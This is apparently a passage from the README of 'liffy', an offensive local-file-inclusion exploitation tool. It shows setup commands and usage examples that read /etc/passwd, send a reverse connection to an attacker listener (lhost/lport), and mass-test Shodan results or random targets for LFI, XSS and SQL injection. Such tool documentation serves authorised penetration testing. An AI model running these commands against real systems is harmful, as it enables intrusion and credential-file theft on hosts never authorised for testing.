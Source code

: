 ### Manual Setup
```bash
# Install Python dependencies
pip3 install -r requirements.txt

# Install Go tools
go install github.com/Anon-Exploiter/sqry@latest
go install github.com/bp0lr/gauplus@latest
go install github.com/ferreiraklet/airixss@latest
go install github.com/ferreiraklet/jeeves@latest
go install github.com/tomnomnom/qsreplace@latest
go install github.com/tomnomnom/gf@latest

# Setup scope directory
mkdir -p ~/targets/scope
echo "example.com" > ~/targets/scope/inscope.txt

# Make executable
chmod +x liffy_ultimate_unified.py
```

## 🎯 Usage

### Single Target Mode
```bash
# Basic LFI exploitation
liffy --url "http://target/file.php?page=" --data --lhost 192.168.1.100 --lport 4444

# Auto-detect IP and port
liffy --url "http://target/file.php?page=" --data --auto-ip --auto-port

# Different techniques
liffy --url "http://target/file.php?page=" --input --auto-ip --auto-port
liffy --url "http://target/file.php?page=" --filter --file /etc/passwd
liffy --url "http://target/file.php?page=" --auto --auto-ip --auto-port
```

### Multi-Target Mode
```bash
# Random targets from scope
liffy --random --test-mode all --auto-ip --auto-port

# Specific domain testing
liffy --domain example.com --test-mode lfi --auto-ip --auto-port

# Shodan search
liffy --shodan-query "apache" --test-mode lfi --auto-ip --auto-port

# XSS testing only
liffy --domain example.com --test-mode xss

# SQL injection testing only
liffy --domain example.com --test-mode sqli
```
